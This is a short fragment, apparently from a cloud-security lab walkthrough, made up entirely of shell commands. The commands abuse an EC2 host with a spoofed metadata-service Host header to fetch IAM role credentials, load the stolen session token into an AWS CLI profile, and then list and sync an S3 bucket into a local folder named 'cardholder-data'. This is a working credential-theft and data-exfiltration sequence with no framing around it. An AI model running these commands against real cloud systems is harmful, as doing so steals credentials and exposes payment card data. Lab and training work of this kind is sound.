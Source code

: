 `curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

​
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

​
`aws configure --profile scenario2_user`

​
`aws_session_token = <session-token>`

​
`aws s3 ls --profile scenario2_user`

​
`aws s3 sync s3://<bucket-name> ./cardholder-data --profile scenario2_user`
